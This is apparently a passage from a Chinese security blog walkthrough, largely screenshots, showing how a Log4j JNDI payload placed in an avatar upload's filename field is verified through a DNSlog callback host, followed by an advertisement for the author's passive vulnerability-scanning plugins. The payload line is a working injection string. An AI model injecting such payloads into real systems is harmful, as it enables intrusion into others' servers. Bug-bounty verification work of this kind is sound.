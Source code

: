   
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCC6fDLIuaHKGfQbNaCNG0YgUy9F7ZTFWoT7ic0ZTGVEOZUYuSLddnYaFw/640?wx_fmt=png&from=appmsg "")  
  
5.  
来到网站找到触发漏洞的管理员头像上传处，上传头像进行抓包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCCweEQcKDoEl9GbJ4qpNicvYcS3ibvTyXjhejRrKJRXL80hxu605QJGqGA/640?wx_fmt=png&from=appmsg "")  
  
6.  
配合  
dnslog  
平台验证漏洞存在。修改数据包中  
filename  
参数为：  
${jndi:ldap://d6l6.dnslog.ink}  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCCiaW5dw7an7ZnahNazRuFjRlKHVn8iaX6M6Ljhn5DUcjWwXA5JS1pg5mg/640?wx_fmt=png&from=appmsg "")  
  
7.  
回到  
dnslog  
平台，成功接收到了解析记录，说明漏洞存在。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCC6E7OvGKVHGgsOhRmWuSmo5yvU7Dxv1SP8rsnkDn4vLyU4ydw15zicTQ/640?wx_fmt=png&from=appmsg "")  
  
推荐一下作者最新研发的yakit被动漏洞检测插件，可挖掘企业src漏洞。  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCImmI8E9Zf6JqGRia9JWljiaavtzDPaxIm6PXM8IuzuAB6ViceOVwpEMvHH403GNQp59nju2Q49TvqOpg/640?wx_fmt=png&from=appmsg&watermark=1&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
以上漏洞都是不需要任何技巧的，作者只是开启插件在目标网站用鼠标“点点点点”就挖掘出这么多漏洞，完全  
  
“零基础”“  
  
零成本”挖洞  
  
目前一共开发了四个插件：  
  
被动  
sql  
注入检测  
  
被动  
xss  
扫描优化版  
  
被动目录扫描好人版  
  
被动  
ssrf  
及  
log4j  
检测  
  
插件使用效果：[记一次企业src漏洞挖掘连爆七个漏洞！](https://mp.weixin.qq.com/s?__biz=Mzg5NDg4MzYzNQ==&mid=2247486552&idx=1&sn=41c4e4a40fd104f53e22f5a7143c88ad&scene=21#wechat_redirect)  
  
  